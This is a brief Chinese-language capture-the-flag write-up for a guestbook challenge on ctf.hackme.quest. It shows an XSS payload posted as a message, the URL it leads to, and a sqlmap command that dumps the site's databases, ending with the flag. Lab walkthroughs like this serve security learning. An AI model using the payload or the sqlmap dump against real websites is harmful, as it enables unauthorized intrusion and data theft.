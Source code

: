 1. 我是先打一個XSS到 New Post: `https://ctf.hackme.quest/gb/?mod=new`
> payload: `"><script>alert(1)</script>`

2. 到 message list: `https://ctf.hackme.quest/gb/index.php?mod=home`，點擊發的文，觸發XSS。

3. 觸發後，得到: `https://ctf.hackme.quest/gb/?mod=read&id=787` url。

4. `sqlmap -u "https://ctf.hackme.quest/gb/?mod=read&id=787" --dbs --dump`掃

![image](https://user-images.githubusercontent.com/75651364/192126746-a0ac4967-6db4-4559-aa1b-79e8c735a723.png)

`FLAG{Y0U_KN0W_SQL_1NJECT10N!!!' or 595342>123123#}`

